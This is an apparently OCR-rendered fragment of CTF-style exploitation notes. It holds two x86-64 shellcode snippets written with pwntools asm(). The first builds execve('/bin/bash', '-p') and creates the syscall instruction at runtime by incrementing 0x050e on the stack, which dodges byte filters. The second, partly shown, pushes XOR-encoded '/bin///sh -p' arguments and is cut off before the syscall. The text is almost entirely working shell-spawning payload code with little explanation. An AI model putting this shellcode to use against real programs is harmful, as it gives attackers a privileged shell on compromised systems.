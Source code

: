 ```
sh = asm('''
  	push 0
  	push 0x702d
  	mov r9,rsp
  	push 0
  	lea rdi,[rip+bin]   
  	push r9
  	push rdi
  	mov rsi,rsp
    mov rdx,0x0
    
    mov rax,0x3b
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
bin:
	.string "/bin/bash"
''')
```
|  |  |
| --- | --- |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
| 
 | 
 |

## *push,pop 实现( /bin///sh -p)
```
# execve(path='/bin///sh', argv=['sh','-p'], envp=0) 
    # push b'/bin///sh\x00' 
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    # push argument array ['sh\x00', '-p\x00'] 
    # push b'sh\x00-p\x00' 
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi 
    push rsi  # /* null terminate */
```